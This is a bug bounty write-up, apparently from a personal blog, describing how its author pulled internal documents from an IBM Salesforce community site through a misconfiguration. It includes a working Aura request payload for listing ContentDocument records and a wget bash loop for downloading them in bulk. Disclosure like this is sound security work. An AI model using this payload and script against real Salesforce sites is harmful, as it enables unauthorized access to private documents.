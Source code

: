 ```yaml
---
title: "How I was able to access IBM internal documents"
classes: wide
header:
  teaser: /assets/images/crackmes1/ibm.jpg
ribbon: DodgerBlue
categories:
  - bugbounty
toc: true
---
```


Hi, today I will share how I was able to access internal data of https://weathercommunity.ibm.com using salesforce misconfiguration.

This write-up will depends n this great blog: https://web.archive.org/web/20210125200757/https://www.enumerated.de/salesforce
so please read it first then read this write-up.

After I read this blog, I wanted to exploit it in the wild so I now I wanted to see the subdomains which point to on of the following CNAMEs:

*.force.com

*.secure.force.com

*live.siteforce.com

I used this great tool https://github.com/yghonem14/cngo to get CNMAEs of all the websites that have program 
on hackerone through https://chaos.projectdiscovery.io/

I found this subdomain **weathercommunity.ibm.com** which pointing out to: **thercommunity.ibm.com.00de0000000avgcma2.live.siteforce.com**

I found an endpoint like:
     
![](https://images.squarespace-cdn.com/content/v1/5f7770a896185c777e49b396/1602179691337-ZXQYGZ11DJ60P6T3RURB/ke17ZwdGBToddI8pDm48kD6aNKZxB3DN5p6JsVrwzw1Zw-zPPgdn4jUwVcJE1ZvWQUxwkmyExglNqGp0IvTJZcY1lis3u7ujHaqKviAjfgBXb2P7ACMlJX44aBDLb--xfEjN8oatzV-2psMy5gKWM4rq4TCJTzAyL25jm0DX3aYLdXwLHXSvXM5NA8ifPwj1/aura_query.PNG?format=2500w)

then I sent this POST request to the Repeater and changed the ***Message*** parameter to:

`{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"MARKER","layoutType":"FULL","pageSize":100,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}`

Replacing the ***MARKER*** string with:

***ContentDocument***

![](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/yhbkptntl3ejirmp120m63bww7qp?response-content-disposition=attachment%3B%20filename%3D%22sscx.png%22%3B%20filename%2A%3DUTF-8%27%27sscx.png&response-content-type=image%2Fpng&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQVWUV5OPW%2F20220304%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220304T203539Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEPr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLXdlc3QtMiJIMEYCIQCKkKDd%2FYAGDreUjy2PkCVyL4WkLDfQdTTWK%2FQQ%2BXV9dgIhAP4SLBQum5dkwla7qA0bALGXc3YLMn3%2FN5%2B4k4%2FnFNb%2BKvoDCGMQAhoMMDEzNjE5Mjc0ODQ5IgxVuaWbVMzYX%2FFfL7Iq1wMPdnxlUWbOCNct9xMVEH9uFip3Cq%2FZUlXK4B77TUcv5jwABvySCfeeihj1EhLuYl5%2FHWIFvcFJmz2I3KxTEhQ0%2FSdmpvmPDMJuX%2BJ7VBRTX90TG2LOtqeQo6Ahjw4qwMm2UwxvqRv0H%2BfcyBSaI8R7kCZSy4van5BLEcx0nDb%2BnvzekJTklkAOAck4EWN45ZhghIMEJz3W2gdnaSdGKKUekX30a6Mzn7%2BZyrAmEXLKNWqWrCHmr5z%2FAAHihOuqRXSJZaVO6vjW3Tnc1WxmBU4686gtnww41do6IWnHeHDpnMGqHU0zzmi3MU7wQlQH12TYux8s9Vo%2FX%2BANL4LlZbaaYjiSTzZN7S9Mv4MLkygTp4akIT1IXnSE0Njao8utUIT0hieUBCVGKw%2BpaOMJAkMIHQ%2BVToZNO13kP5gdy46BUoqJzqx2XykjU2gLpt2ScOnfCywoYyQxYkX%2FW4ndpHh5UThQaI47ySTKz79L8zg3%2B03WBxUKzzIynXiwfNsq1MY7wPJUrAdD4jDvwnvbwIrCtjJPLDTd4wu2GKNmep15vWBADnE21Rl%2FPgnGbdEQdWN%2FAcM5w3fskXZlwOTA%2F9FqYKvunPLzApawYmt3p%2FyRWZMVdC%2FRF2cw%2FKWJkQY6pAFllJRyfbRP6sIt%2BHrwTfQdejbA4WjdSyNC4Jsi9xsQS4EdtGOBD%2FzZ%2B3CEkgTXlHuCE5v0mQG9EcagoiB9viBTO7MF%2Bo4%2FPo7CEPfokbbjM2BNv2GoQt7WxPpGgVKojb76omwz7VVH1bx0ia2VId2Y7JZw3%2Bhh6OH2%2BqzokDzfJpDSAstF%2FTiA6zHYS1svfGO1yZIV9seNB0XtBjkFPBKo%2BcjGmg%3D%3D&X-Amz-SignedHeaders=host&X-Amz-Signature=ff19e6685aa66f4735dcd739fd13b496c5b21cf58a5f37667d26f4a4a11126d6)

See that there are more than 900 ID.
I extracted the ID value which started with 069 and made a simple bash script to download them one by one
through this endpoint /sfc/servlet.shepherd/document/download/$ID

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/ID

Example: 

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/0690h0000060wuHAAQ

```
while read i
do wget --no-check-certificate "https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/$i"
done < $1

```

Sample of the internal images:

![](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/9p4dbjafg8rtktxubh37ohuyc14s?response-content-disposition=attachment%3B%20filename%3D%220690h000007Aly3AAC%22%3B%20filename%2A%3DUTF-8%27%270690h000007Aly3AAC&response-content-type=image%2Fpng&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQZYNIBA6H%2F20220304%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220304T204708Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEPr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLXdlc3QtMiJIMEYCIQD37f9Upttrr7X0u6Lv9S58bOu6vWvhE5W9%2BqsSiAPkjQIhAKfSpjXF99Cv13J7IfRx2KBI3dOZ%2Bcw5BHX1tw9wq07%2FKvoDCGMQAhoMMDEzNjE5Mjc0ODQ5IgzJyEflzTkp01Ectdsq1wMY9x4YZa6ek3mI86HYnVRSL%2FG%2Bt1kJ%2BewpNkdxHW%2FCc4xWoQnS5n3Er0OEcodDpvldfFFDnlnww5yhAlcX1pUK8bfILR7b6XI3sr3WN16aNzzb5lOLSsoaMfYA2JGyRm9joy3TbXtQozCzmNT%2FNZ03iKBDc%2F5qxAKRa%2BAeLAGSyGeBbXitaOZ53QsWi3HWs7jKfSasgR%2F7N%2FpxdMsOn%2B02ufYcmakGBKwnzVqF2eaQtja75sd4I6aX3XxRaO4xdv4ESEMW6gWy2%2BWnT4p0dB3WdbKqzsImFJw5gLbpa9bPeyK0L2gLRdAjjhO%2FPUtx8fJ%2BekmnqFkXejWbrh5msiRvGL9KDITja4wurm5OvVwQo%2FwR16wNa0Dh7mcZiiDy2In2gPzHGDV4FxRW0NXY%2BcdhFLW9OMDVA%2Bd%2FsE2bcdKj3x9%2FlhMAz5Lgu%2BYnbQ8AWklSHBmP%2BUlsLDE%2Fk0NsTuzTwHSLHQ06zVGIM7V7TOZfjnaYbKUNF%2Bb1HCLJoxTYN3UqJC%2BWe8zE6Wi5gMFtFvAmc0oMr1jtfK3Un3dSLZGUxE9nx4A3RlLafBfxtiWCi2qa2rmVDrwIWvRctOx5bcFyNjzu1NAzZIx4ymQS3EqeZ1uKlp6y1t4w8KGJkQY6pAHsT0iIcDrjKOKLuVzwV%2BX%2BQZPYAAfyiSprxLAmJ6T8JhWjwc1VQtc7KEyFZKfq38antz5jzqT2sYLU3mku76D8AnCjurzoDRbRRbN4DxlQR3stAmWSam8w%2BKWmlCrgY10XCPxgmsAhhu7OsimMbMKcYdF%2BzmbC82gxo3we4RRkdHUMo1KMXR6wtHZaJ6ggJh5PA8ZcUqjCEO9gmTruotlPpHYHcA%3D%3D&X-Amz-SignedHeaders=host&X-Amz-Signature=c3f571905620666c9aac2c51b2aad54b409e3046da2614f705ed86c29e7e5fd2)

![](/assets/images/crackmes/crit.PNG)


***Final word:**
you will not understand anything if you did not read the blog first as he explained erything in it.
